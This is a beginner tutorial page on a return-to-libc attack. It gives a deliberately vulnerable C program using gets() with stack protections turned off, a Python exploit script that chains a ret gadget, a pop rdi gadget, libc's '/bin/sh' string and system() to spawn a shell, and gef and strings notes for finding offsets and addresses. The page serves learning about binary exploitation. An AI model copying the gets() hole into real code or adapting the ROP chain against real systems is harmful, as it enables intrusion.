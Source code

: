 ```yaml
---
title: "Return to libc attack"
date: "2027-11-03"
tags:
  - "infosec"
  - "beginner"
  - "binexp"
  - "exploit"
---
```


watch the video on youtube

<yt-video id="2YPoSWGE-Fc"> </yt-video>

I'm sorry the vulnerable programe I show in the vide was wrong. you can find the correct code from below

`bof.c`

```c
#include<stdio.h>
#include<string.h>

void vuln_func();

int main(int argc, char *argv[])
{
        printf("hello\n");
        vuln_func();
}

void vuln_func()
{
        char buffer[256];
        gets(buffer);
}
```

`Makefile`

```Makefile
all:
        gcc -no-pie -fno-stack-protector bof.c -o vuln -D_FORIFY_SOURCE=0

clean:
        rm vuln
```

`exploit.py`

```python
#!/usr/bin/python

import struct


size = 256
libc_base = 0x00007ffff79e2000


padding = "A"* size
padding += "BBBBBBBB"


#padding += "CCCCC"

padding += struct.pack("Q", libc_base + 0x00000000000008aa) # added a ret to prevent stack issue
padding += struct.pack("Q", libc_base + 0x00000000000215bf) # the rip contain pop rpi ret
padding += struct.pack("Q", libc_base + 0x1b3e1a) # address for the bin sh
padding += struct.pack("Q", 0x7ffff7a31550) # addr for system


print padding
```

The Notes

---

## Finding the offset

found the offset to rbp

```

gef➤  pattern offset $rbp
[+] Searching for '$rbp'
[+] Found at offset 256 (little-endian search) likely
gef➤

```

overwting the rip

```python

#!/usr/bin/python

padding = "A" * 256
padding += "BBBBBBBB"
padding += "CCCCCC" # we writing the rip

print padding

```

- finding the addr for libc ( 0x00007ffff79e2000 )

- addr for ret ( 0x00000000000008aa )
- gadget (pop rdi , ret) ( 0x00000000000215bf )
- addr for the /bin/sh ( 1b3e1a )
- addr for system ( 0x7ffff7a31550 )

```
0x00000000000215bf: pop rdi; ret;
```

## found the bin sh

```

➜  yt strings -a -t x libc-2.27.so | grep '/bin/sh'
 1b3e1a /bin/sh
➜  yt

```
